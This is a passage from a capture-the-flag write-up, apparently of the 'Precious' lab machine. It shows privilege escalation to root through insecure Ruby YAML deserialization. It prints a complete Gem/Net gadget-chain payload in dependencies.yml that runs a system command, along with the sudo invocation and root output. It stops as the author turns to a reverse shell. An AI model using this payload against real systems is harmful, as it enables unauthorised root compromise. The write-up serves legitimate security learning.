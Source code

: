 > [Insecure deserialization - Theory](https://cspanias.github.io/posts/PS-Insecure-deserialization-Theory/) & [Insecure deserialization - Practice](https://cspanias.github.io/posts/PS-Insecure-deserialization-Practice/).

Let's check with what version we are working with:

```bash
henry@precious:/$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

We can try using just the last payload since the first two are for previous version than the one we have. We can move to the `/tmp` directory and create a `dependencies.yml` file with the payload as its content:

```bash
henry@precious:/tmp$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

The script executes the `id` command, so let's see if that works:

```bash
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
<SNIP>
```

The exploit seems to work just fine! We can now inject some Ruby reverse shell code instead of the `id` command. After some unsuccessful attempt to catch the shell, we can try base64 encode our payload before sending it. We can do that using [revshellgen](https://github.com/t0thkr1s/revshellgen): 
